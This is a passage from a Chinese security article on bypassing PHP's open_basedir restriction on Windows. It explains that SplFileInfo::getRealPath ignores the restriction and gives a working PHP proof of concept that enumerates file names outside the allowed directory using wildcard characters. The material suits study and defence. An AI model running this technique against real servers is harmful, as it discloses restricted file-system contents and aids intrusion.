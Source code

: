 当然，这是个很粗糙的 POC，因为我并没有考虑到首字母相同的文件，所以这个 POC 只能列举首字母不同的文件。

如果首字母相同，我们只需要再枚举第二个字符、第三个字符依次类推，即可列举出目录中所有文件。

这个方法好处是 windows 下 php 所有版本通用，当然坏处就是只有 windows 下才能使用通配符，如果是 linux 下就只能暴力猜解了。

## 0x04 SplFileInfo::getRealPath 列举目录

* * *

受到上一个方法的启发，我开始在 php 中寻找类似的方法。一旦 realpath 不能使用的情况下，也能找到替代方式。

我找到了新方法： [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录#1](http://www.wooyun.org/bugs/wooyun-2014-083453) ，使用的方式是 SplFileInfo::getRealPath。

SplFileInfo 类是 PHP5.1.2 之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和 realpath 名字很像的方法叫 getRealPath。

这个方法功能和 realpath 类似，都是获取绝对路径用的。我们在 SplFileInfo 的构造函数中传入文件相对路径，并且调用 getRealPath 即可获取文件的绝对路径。

这个方法有个特点：完全没有考虑 open_basedir。在传入的路径为一个不存在的路径时，会返回 false；在传入的路径为一个存在的路径时，会正常返回绝对路径。

我们的 realpath 函数还是考虑了 open_basedir，只是在报错上没有考虑周全导致我们能够判断某个文件是否存在。但我们可爱的 SplFileInfo::getRealPath 方法是直接没有考虑 open_basedir，就能够判断一个文件是否存在。

那么，我给出一个 POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>

```

只是把之前的 POC 稍作修改，同样列出了 D:/test 下的文件：

![enter image description here](img/img5_u41_png.jpg)
